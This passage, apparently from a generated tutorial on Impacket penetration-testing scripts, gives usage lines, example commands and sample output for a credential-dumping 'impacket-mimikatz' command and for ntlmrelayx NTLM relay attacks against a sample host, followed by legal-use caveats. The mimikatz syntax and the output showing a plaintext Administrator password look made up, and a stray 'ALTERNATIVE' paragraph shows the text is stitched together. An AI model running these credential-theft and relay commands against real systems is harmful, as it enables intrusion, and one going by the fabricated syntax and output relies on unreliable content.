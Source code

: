 ```bash
impacket-mimikatz -i <target_ip> -u <username> -p <password>
```

**Example:**

```bash
impacket-mimikatz -i 192.168.1.100 -u Administrator -p P@ssw0rd
```

**Expected Output:**

```
Kerberos: 
  Username: Administrator
  Password: P@ssw0rd
```

#### 4. `ntlmrelayx`

This script is used for NTLM relay attacks. It relays authentication requests to other services.

**Usage:**

```bash
impacket-ntlmrelayx -t <target>
```

**Example:**

```bash
impacket-ntlmrelayx -t http://192.168.1.100
```

**Expected Output:**

```
Relaying NTLM authentication...
```

### Important Considerations

- **Legal Use**: Always ensure you have permission to test the target systems. Unauthorized access is illegal and unethical.
- **Network Settings**: Ensure that the target systems are reachable and have the necessary services running.
- **Dependencies**: Some scripts may require additional dependencies or configurations, so refer to the Impacket documentation for specific requirements.

### Conclusion

Impacket is a powerful tool for network protocol analysis and exploitation. By understanding its various scripts and commands, you can effectively perform penetration tests and security assessments. Always use these tools responsibly and within legal boundaries.


                  ALTERNATIVE
Impacket is a collection of Python classes for working with network protocols, and it's a powerful tool for penetration testing and exploitation. Impacket scripts are a part of the Kali Linux distribution.
